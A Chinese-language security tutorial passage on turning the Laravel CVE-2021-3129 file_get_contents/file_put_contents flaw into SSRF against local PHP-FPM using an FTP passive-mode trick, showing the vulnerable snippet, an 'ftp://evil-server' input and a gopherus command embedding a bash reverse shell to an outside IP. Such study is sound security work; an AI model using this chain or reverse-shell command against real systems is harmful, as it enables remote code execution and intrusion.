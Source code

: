 这是在之前复现 Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到 RCE 的效果。

漏洞代码大致可以简化为如下代码：

```bash
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

可以看到这里主要功能点是：读取一个给定的路径 `$_GET['viewFile']`，之后写回文件中 `$_GET['viewFile']`，这相当于什么都没有做！

由于我们可以运行 file\_get\_contents() 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP 请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。

众所周知，如果我们能向 PHP-FPM 发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 gopher://协议结合使用，curl 支持 gopher://协议，但 file\_get\_contents 却不支持。

另一个已知的允许通过 TCP 发送二进制数据包的协议是 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从 FTP 服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个有服务端指定的 IP 和端口上。而且，这里对这些 IP 和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。

现在，如果我们尝试使用 `viewFile=ftp://evil-server/file.txt` 来利用这个漏洞，会发生以下情况：

-   首先通过 file\_get\_contents() 函数连接到我们的 FTP 服务器，并下载 file.txt。
-   然后再通过 file\_put\_contents() 函数连接到我们的 FTP 服务器，并将其上传回 file.txt。

现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file\_get\_contents() 在我们的服务器上下载一个文件，当它试图使用 file\_put\_contents() 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF 了。

下面我们来演示一下攻击过程。

首先，我们使用 gopherus 生成攻击 fastcgi 的 payload：

```bash
python gopherus.py --exploit fastcgi
/var/www/html/index.php  # 这里输入的是目标主机上一个已知存在的 php 文件
bash -c "bash -i >& /dev/tcp/192.168.43.247/2333 0>&1"  # 这里输入的是要执行的命令
```

[![](assets/1698897074-24dd0b4bc43231ead75054833d890ca7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134743-91ebb1a0-b2e5-1.png)
